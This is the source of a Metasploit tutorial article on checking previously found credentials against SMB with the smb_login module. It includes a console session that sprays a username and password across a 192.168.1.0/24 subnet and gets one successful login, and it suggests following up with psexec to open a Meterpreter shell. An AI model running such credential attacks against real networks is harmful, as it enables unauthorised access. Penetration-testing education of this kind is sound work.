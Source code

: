```yaml
---
draft: false
title: SMB Login Check in MSF
linkTitle: SMB Login Check
weight: 170
translationKey: smb-login-check-in-msf
date: 2017-05-18T13:02:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: SMB Login Check with the username and password found in the previous steps.
url: /smb-login-check-in-msf/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
keywords:
    - smb
---
```

In our previous articles, we have seen some of the “Information Gathering” modules. We discussed the issues of services not being found along with IP and Port scanning. The next stage is called “Vulnerability Scanning”. The better and healthier the “Information Gathering” operations from the Pentest stages are, the more efficient you will be in the following stages.

In the scans you have performed, you think that you have somehow found a username and password. You may want to try which other services use this username and password. At this point, the most logical service to try is the network file sharing service called `SMB`.

In the example below, the `smb_login` module is used and a previously found username and password are tried. In this type of scan, you should be careful if the target computer is Windows because every unsuccessful attempt is sent to the system administrator as a warning. You should know that the `smb_login` scan makes a lot of noise.

If your 'smb_login' scan is successful, you can try opening a 'Meterpreter' shell using the 'windows/smb/psexec' module.

```bash
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(smb_login) > show options

Module options (auxiliary/scanner/smb/smb_login):

 Name Current Setting Required Description
 ---- --------------- -------- -----------
 BLANK_PASSWORDS true no Try blank passwords for **all users
 BRUTEFORCE_SPEED 5 yes How fast to bruteforce, from 0 to 5
 PASS_FILE no File containing passwords, one per line
 PRESERVE_DOMAINS true no Respect a username that contains a domain name.
 RHOSTS yes The target address range or CIDR identifier
 RPORT 445 yes Set the SMB service port
 SMBDomain WORKGROUP no SMB Domain
 SMBPass no SMB Password
 SMBUser no SMB Username
 STOP_ON_SUCCESS false yes Stop guessing when a credential works for **a host
 THREADS 1 yes The number of concurrent threads
 USERPASS_FILE no File containing users and passwords separated by space, one pair per line
 USER_AS_PASS true no Try the username as the password for **all users
 USER_FILE no File containing usernames, one per line
 VERBOSE true yes Whether to print output for **all attempts

msf auxiliary(smb_login) > set RHOSTS 192.168.1.0/24
RHOSTS => 192.168.1.0/24
msf auxiliary(smb_login) > set SMBUser victim
SMBUser => victim
msf auxiliary(smb_login) > set SMBPass s3cr3t
SMBPass => s3cr3t
msf auxiliary(smb_login) > set THREADS 50
THREADS => 50
msf auxiliary(smb_login) > run

> 192.168.1.100 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
> 192.168.1.111 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
> 192.168.1.114 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
> 192.168.1.125 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
> 192.168.1.116 - SUCCESSFUL LOGIN (Unix)
> Auxiliary module execution completed

msf auxiliary(smb_login) >
```

As seen in the sample output, a successful login was performed at the IP address `192.168.1.116`.